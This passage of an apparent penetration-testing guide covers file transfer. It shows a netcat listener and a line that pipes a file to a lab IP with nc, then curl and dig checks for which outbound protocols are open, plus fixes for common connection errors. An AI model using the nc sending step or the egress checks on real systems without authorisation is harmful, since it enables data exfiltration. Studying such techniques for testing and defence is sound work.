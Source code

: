 #### Receiving Side

```bash
# Listen for incoming data and save to file
nc -lvnp 8000 > received_file.txt
```

#### Sending Side

```bash
# Send file data
cat file.txt | nc 192.168.49.128 8000
```

### Troubleshooting Network Restrictions

#### Identifying Available Outbound Protocols

```bash
# Test HTTP outbound
curl -s -m 3 http://example.com > /dev/null && echo "HTTP allowed" || echo "HTTP blocked"

# Test HTTPS outbound
curl -s -m 3 https://example.com > /dev/null && echo "HTTPS allowed" || echo "HTTPS blocked"

# Test DNS outbound
dig +short example.com @8.8.8.8 > /dev/null && echo "DNS allowed" || echo "DNS blocked"
```

#### Common Errors and Solutions

**Unable to Connect**

```
wget: unable to resolve host address
curl: (6) Could not resolve host
```

Solution: Check DNS settings or use IP address instead of hostname.

**Connection Timeout**

```
wget: connection timed out
curl: (28) Connection timed out
```

Solution: Verify network connectivity or try alternate port/protocol.

**Permission Denied**

```
curl: (13) Permission denied
```

Solution: Check file permissions or run with appropriate privileges.

### Best Practices
